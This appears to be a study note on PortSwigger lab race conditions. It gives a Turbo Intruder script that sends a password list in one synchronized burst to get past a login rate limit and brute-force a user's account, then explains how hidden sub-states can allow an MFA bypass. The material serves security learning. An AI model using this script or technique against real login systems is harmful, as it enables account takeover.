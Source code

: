 # Solving the lab
- Try to login to carlos account and notice that there is a rate limit in place
- Send the POST login request and send the request to burp intruder
- Use the code below in burp turbo intruder
- Change the password value in the request with %s
- Start the attack and check response

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    passwords = [p.strip() for p in open('/home/kali/password', 'r').readlines()]
    
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)

```

# Hidden multi-step sequences
- In practice, a single request may initiate an entire multi-step sequence behind the scenes, transitioning the application through multiple hidden states that it enters and then exits again before request processing is complete. 
- We'll refer to these as "sub-states".
- If you can identify one or more HTTP requests that cause an interaction with the same data, you can potentially abuse these sub-states to expose time-sensitive variations of the kinds of logic flaws that are common in multi-step workflows. 
- This enables race condition exploits that go far beyond limit overruns.
- For example, you may be familiar with flawed multi-factor authentication (MFA) workflows that let you perform the first part of the login using known credentials, then navigate straight to the application via forced browsing, effectively bypassing MFA entirely.
- The following pseudo-code demonstrates how a website could be vulnerable to a race variation of this attack:

```
    session['userid'] = user.userid
    if user.mfa_enabled:
    session['enforce_mfa'] = True
    # generate and send MFA code to user
    # redirect browser to MFA code entry form
```
- As you can see, this is in fact a multi-step sequence within the span of a single request. 
- Most importantly, it transitions through a sub-state in which the user temporarily has a valid logged-in session, but MFA isn't yet being enforced. 
- An attacker could potentially exploit this by sending a login request along with a request to a sensitive, authenticated endpoint
